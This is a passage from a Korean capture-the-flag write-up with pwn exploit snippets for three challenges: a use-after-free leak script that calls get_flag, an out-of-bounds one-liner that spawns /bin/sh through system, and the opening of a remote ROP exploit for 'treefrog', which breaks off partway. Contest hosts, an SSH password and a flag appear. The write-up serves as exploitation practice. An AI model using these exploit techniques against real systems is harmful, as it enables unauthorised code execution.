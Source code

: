 ```python

go('V')
go('D')

go('C')
go('N')

go('C')
go('W')

s.sendline("A" + p64(leak))

go('V')
go('C')
s.interactive()
```

leak을 주니까 leak하고 uaf이용해서 get_flag 함수 불러주면 된다.

flag : dimi{Cpp_1s_e@5y_and_d1ff1cult}



### what ( 902 p )

```
cat flag

ssh what@121.170.91.19 (password : what)
```



```
./what 4294901776 /bin/sh
```

- oob나서 값 잘 맞춰주면 system을 호출할 수 있다.

### treefrog  ( 940p )

```
nc 121.170.91.17 10101
DOWNLOAD
```



```python
from ntpwn import *

#s = process('./treefrog')
s = remote('121.170.91.17',10101)

def mp(pay):
	rpay = list(pay)
	rpay.reverse()
	return "".join(rpay)

'''
sc = list()
sc.append('b *0x400650')
sc.append('c')
sc = makesc(sc)
'''

e = ELF('./treefrog')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

prdi = 0x00000000004006c3
```